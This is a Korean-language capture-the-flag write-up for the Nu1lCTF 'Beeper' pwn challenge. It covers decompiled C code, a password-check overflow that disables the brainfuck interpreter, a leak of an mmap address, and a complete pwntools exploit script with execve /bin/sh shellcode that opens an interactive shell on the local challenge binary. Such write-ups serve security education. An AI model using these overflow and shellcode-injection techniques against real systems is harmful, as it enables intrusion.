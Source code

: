# [Pwn] Nu1lCTF - Beeper

## Description

N/A

## Analysis

문제를 처음 실행하면 패스워드를 입력해야 한다.

password의 경우 sub_EAA()에 존재한다.

```c
signed __int64 sub_EAA()
{
  signed int i; // [rsp+Ch] [rbp-54h]
  int password[18]; // [rsp+10h] [rbp-50h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("password:");
  *(_BYTE *)qword_2029F8 = 0;
  *(_BYTE *)qword_202A00 = 0;
  fgets(input_password, 2000, stdin);
  qword_2029F0 = qword_2021E8;
  brainFuck((__int64)&bf_data);
  idx = 0;
  password[0] = 0x86;
  password[1] = 0x13;
  password[2] = 0x81;
  password[3] = 9;
  password[4] = 0x62;
  password[5] = 0xFF;
  password[6] = 0x44;
  password[7] = 0xD3;
  password[8] = 0x3F;
  password[9] = 0xCD;
  password[10] = 0x19;
  password[11] = 0xB0;
  password[12] = 0xFB;
  password[13] = 0x88;
  password[14] = 0xFD;
  password[15] = 0xAE;
  password[16] = 0x20;
  password[17] = 0xDF;
  for ( i = 0; i <= 17; ++i )
  {
    if ( password[i] != (unsigned __int8)input_password[i] )
      return 0LL;
  }
  return 1LL;
}
```

하지만 brainFuck(이하 bf)함수를 보면 bf_data의 값이 null이 될때까지 반복을 하여 패스워드가 변경된다.

```c
  while ( *(_BYTE *)(idx + bf_data) )
  {
    v1 = *(char *)(idx + bf_data);
    switch ( (unsigned int)off_1710 )
   ...
```

다행히도 fgets에 의해 입력 받는 값이 bf_data의 주소까지 덮을 수 있었으며, bf_data의 값을 \x00으로 덮으면 bf 함수를 수행하지 않아 패스워드를 그대로 사용할 수 있게 된다.

```
parallels@ubuntu:/media/psf/Home/writeup/ctf/nictf$ (python -c 'print "\x86\x13\x81\x09\x62\xff\x44\xd3\x3f\xcd\x19\xb0\xfb\x88\xfd\xae\x20\xdf"+"1"*(112-18)+"\x00"';cat) | ./beeper
Homura Beeper,plz login!
password:
welcome!
1.Show the message.
2.Remove the message.
3.Buy a cell phone.
4.Logout.
choice>>
```

또한 main문 처음의 함수에서 shellcode를 mmap에 의해 할당된 영역에 붙여 넣는 것을 확인할 수 있다.

```c
unsigned __int64 sub_FF4()
{
  unsigned __int64 v0; // ST08_8
  unsigned int v1; // eax
  int v2; // eax

  v0 = __readfsqword(0x28u);
  qword_2029F8 = (__int64)malloc(4uLL);
  qword_202A00 = (__int64)malloc(4uLL);
  v1 = time(0LL);
  srand(v1);
  v2 = rand();
  gotohere = (char *)mmap(
                       (void *)(((v2 + 16) << 12) + (unsigned int)((unsigned int)((v2 + 16) << 12) >= 0xFFFFFFFF)),
                       0x1000uLL,
                       7,
                       50,
                       -1,
                       0LL);
  strcpy(gotohere, shellcode);
  qword_2021E8 = (__int64)input_password;
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  return __readfsqword(0x28u) ^ v0;
}
```

이제 메뉴의 기능을 확인해보자.

1. Show the message.
   -  메시지의 내용을 확인한다.
2. Remove the message.
   *  메시지를 제거한다.
3. Buy a call phone.
   *  mmap으로 할당된 주소를 실행한다.
   *  bad hacker라는 문구가 출력된다.
4. Logout.
   *  패스워드를 다시 입력할 수 있다.

공격 시나리오는 다음과 같다.

1. 1번과 2번을 통해 mmap 주소를 릭
   *  예) 1번 해제->2번 해제->1번 해제 후 1번 메시지 내용 확인
2. 4번 메뉴를 이용해 mmap 주소의 쉘 코드를 /bin/sh의 쉘코드로 변경(bf함수 이용)
3. Profit!

## Exploit

```python
from pwn import *

r = process('./beeper')

s = lambda x:r.send(str(x))
sl = lambda x:r.sendline(str(x))
c0 = lambda : r.recvuntil('>>')
c1 = lambda : r.recvuntil('remove?')
c2 = lambda : r.recvuntil(', number:')

password = "\x86\x13\x81\x09\x62\xff\x44\xd3\x3f\xcd\x19\xb0\xfb\x88\xfd\xae\x20\xdf"
password += "1"*(112-18)
password += "\x00"

r.recvuntil('password:')
sl(password)
c0()

# Leak Mmap Address
sl(2)
c1()
sl(1)
c0()
sl(2)
c1()
sl(2)
c0()
sl(2)
c1() 
sl(1)
c0()

# Leak Mmap Address in 1
sl(1)
c2()
sl(1)
r.recvuntil('number:')
mmap_address = u64(r.recvuntil('\n').replace('\n',''))
log.success('Mmap Address : %s'%(hex(mmap_address)))

# Overwrite Mmap Address using brainfuck.
new_data = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
ori_data = (p64(0x2434810120646f68)+p64(0x7975b84801010101)+p64(0x48506f6870206120)+p64(0x20746f6e206e61b8))[:len(new_data)]

for idx in range(0,4):
    c_new_data = new_data[11*idx:11*(idx+1)]
    c_ori_data = ori_data[11*idx:11*(idx+1)]
    c0()
    sl(4)
    payload = "\x86\x13\x81\x09\x62\xff\x44\xd3\x3f\xcd\x19\xb0\xfb\x88\xfd\xae\x20\xdf" # Password
    payload += "1"*(104-18) # Dummy
    payload += p64(mmap_address+idx*11) # Target
    bf = ''
    for (i,j) in zip(c_new_data,c_ori_data):
        if ord(i) > ord(j):
            bf += 'm'*(ord(i)-ord(j))+'h'
        elif ord(i) < ord(j):
            bf += 'u'*(ord(j)-ord(i))+'h'
        else:
            bf += 'h'
    payload += bf
    payload += "\x00" # End
    r.recvuntil('password:')
    sl(payload)

r.interactive()
```



